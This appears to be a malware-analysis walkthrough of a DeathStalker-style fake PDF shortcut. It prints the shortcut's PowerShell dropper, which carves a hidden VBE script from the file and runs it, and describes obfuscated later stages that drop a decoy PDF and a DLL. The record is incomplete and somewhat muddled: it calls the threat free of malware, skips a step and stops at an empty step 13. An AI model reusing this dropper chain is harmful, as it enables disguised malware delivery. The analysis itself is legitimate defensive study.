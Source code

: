 ## Deathstalker exploit history
Although it was a virus that infected financial institutions, it contained no malware. It appears that this was a "malware-for-hire" program where a company could use it to spy on other comapnies.

## Analyzing the PDF LNK document (shortcut)
1. When right clicking and viewing the properties of *Confirm.pdf*, we see that it's not actually a PDF document, but a shortcut, with a target set to `C:\Windows\System32\cmd.exe`
2. When we open 010 editor and drag the file into it (**note: do not "open with 010 editor", you must open editor first, then drag file for analysis**) we see at the top some normal magic number headers, and then  a call to cmd.exe with some powershell script after it. This by itself is not useful because there are several null-byte hex codes in there, so we can copy the script, remove the `0x00` hex null-bytes, take the remainder, throw it into Notepad++, and then now we have just the powershell script. We can add line breaks back in by replacing the `;` character with `;\n` and we get something that looks like this:
```powershell
$m='Confirm.pdf.lnk';
$t=[environment]::getenvironmentvariable('tmp');
cp $m $t\$m;
$z=$t+'\'+@(gci -name $t $m -rec)[0];
$a=gc $z|out-string;
$q=$a[($a.length-2350)..$a.length];
[io.file]::WriteAllbytes($t+'\.vbe', $q);
CsCrIpT $t'\.vbe'
```
For reference, if you don't know what a specific powershell command is, you can type in `help <command name>` in a powershell terminal to find out. `gc` = `Get-Content` (an alias for gc, cat, type) and `gci` = `Get-ChildItem` (an alias for gci, ls, dir)
3. The script takes the shortcut file and reads some specific bytes from length-2350 to the end and writes the files to a .vbe script, then executes it.
4. We can pull these bytes out of the file by using 010 editor, pressing ctrl+g to "Go to" and then selecting "Decimal" and "From end of file" in the dropdown menus

![010 search from end of file](assets/010-search-from-end-of-file.png)
5. We can highlight this resulting bytes through the end of the file and save it to a new file by going to *File -> Save Selection -> stage1.vbe*
6. This appears to be an encrypted VBE script, which is a very easy using available tools online. Here is a link to a python script that can do the job: https://github.com/DidierStevens/DidierStevensSuite/blob/master/decode-vbe.py this script only works on Python2 right now. Running the following command: `python2 decode-vbe.py stage1.vbe > stage1-decoded.vbe` gives an output of the decoded script
7. We see in the script that it takes something at offset 2334 with a size of 403632 and saves it to a file called *Confirm.pdf* we can go to 010 editor and go to *Edit -> Select Range* and type in the following:
![010 search range](assets/010-search-range.png)
Then press enter and we see that the range has been selected and we can save just that part to a file.
8. Immediately after the PDF is pulled from memory, it's opened as a decoy document. Then another selection of bytes is pulled from the lnk document, starting right after the PDF  document, with a starting position of 405966 (next byte after PDF) and size of 338462. We can do the same thing here and extract it from 010 editor and see what it is. It looks like it's some encoded data being saved as a file called *~tmpDF3D.ps1*
9. The first bit of processing we can do on the ps1 file is to add line breaks back in. Disable wordwrap, and replace all `;` with `;\n` and then find where there were `;` inside of strings, and fix the strings so they are correct
10. So now that it looks better, we see that there are defined random strings, and then characters being pulled out of the strings via indexes of them. i.e. `$11II=" S2opwermvjrulokbsk#@ksdf...."[13, 3, 60, 30, 29....]`
So we can copy each line one by one into powershell and then type the variable name to see what it gives us.

```powershell
$11II=Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been...
$i111=base 64 encoded string decodes to: SystemRunTimeInteropServicesMarshall::PrTRoStringAuto([SystemRuntimeInteropServiceMarshal]::SecureStringToBSTR($(ConvertTo-SecureString 
$O111=iex
$01Oi=$i111 = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($i111));

# etc.etc.
```
The easiest way to figure out what the powershell script is eventually going to run (by way of the `iex` command) is to replace what we know is the `iex` variable, `$0111` with something like `Write-Output`. If we replace the instance of the `iex` reference getting executed, and then run the whole powershell script and output it to another file we get the decrtpted results.\
`.\~.tmpDF3D.ps1 > stage2.ps1`
12. We can start analyzing the second stage powershell script, and we eventually come across some script that calls `new-object System.IO.BinaryReader` and opens the original file, `Confirm.pdf.lnk`, reading 697088 bytes into $stager2 and reading 8928 bytes into $dll and 4286 bytes into $icon and 614 bytes into $vbs_startup. Writing all the bytes in reverse order to their respective files.
13. 
